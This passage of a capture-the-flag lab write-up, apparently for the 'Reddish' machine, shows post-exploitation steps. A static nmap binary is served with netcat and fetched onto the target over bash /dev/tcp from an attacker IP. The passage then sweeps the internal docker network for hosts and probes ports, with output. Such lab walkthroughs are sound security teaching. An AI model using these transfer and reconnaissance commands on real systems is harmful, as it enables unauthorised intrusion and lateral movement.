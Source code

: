 ```bash
nc -lnvp 1234 < static_nmap
```

Now download the binary

```bash
bash -c "cat < /dev/tcp/10.10.14.132/1234 > /tmp/nmap"
```

Now make a simple ping sweep script to find other hosts on the network. 

```bash
nmap -sn 172.19.0.0/24 -v

result:
Nmap scan report for 172.19.0.1                                              
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed                                                                          
Host is up (-0.20s latency).                                                 
MAC Address: 02:42:32:16:8B:D5 (Unknown)                                     
Nmap scan report for reddish_composition_redis_1.reddish_composition_internal-network (172.19.0.2)                                                        
Host is up (-0.20s latency).                                                 
MAC Address: 02:42:AC:13:00:02 (Unknown)                                     
Nmap scan report for reddish_composition_www_1.reddish_composition_internal-network (172.19.0.3)                                                          
Host is up (-0.13s latency).                                                 
MAC Address: 02:42:AC:13:00:03 (Unknown)

172.19.0.1   
172.19.0.2
172.19.0.3
```

Alternatively, we can do:

```bash
for i in $(seq 254); do ping 172.19.0.$i -c1 -W1 & done | grep from

result:
64 bytes from 172.19.0.4: icmp_seq=1 ttl=64 time=0.022 ms
64 bytes from 172.19.0.3: icmp_seq=1 ttl=64 time=0.075 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.080 ms
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.056 ms
```

Now let’s do a port sweep and see which ports are opened:

```bash
for port in 22 25 80 443 8080 8443; do 
(echo hello > /dev/tcp/172.19.0.3/$port && echo "open - $port") 2>/dev/null
done

result:
80
```
